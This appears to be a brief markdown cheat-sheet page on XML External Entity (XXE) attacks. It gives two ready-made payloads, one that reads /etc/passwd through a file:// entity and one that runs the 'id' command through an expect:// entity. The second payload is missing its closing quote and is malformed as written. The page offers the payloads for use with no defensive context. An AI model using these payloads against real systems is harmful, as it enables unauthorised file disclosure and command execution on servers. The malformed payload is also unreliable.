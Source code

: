 ```yaml
---
layout: post
title: "xxe"
keywords: "xxe, xml external entity"
---
```

#### SYSTEM Read File
Use XXE to read some file from the system using file://
```
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```

#### SYSTEM Execute
Use XXE to perform code execution using expect://
```
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY execute SYSTEM 'expect://id>]>
<root>&execute;</root>
```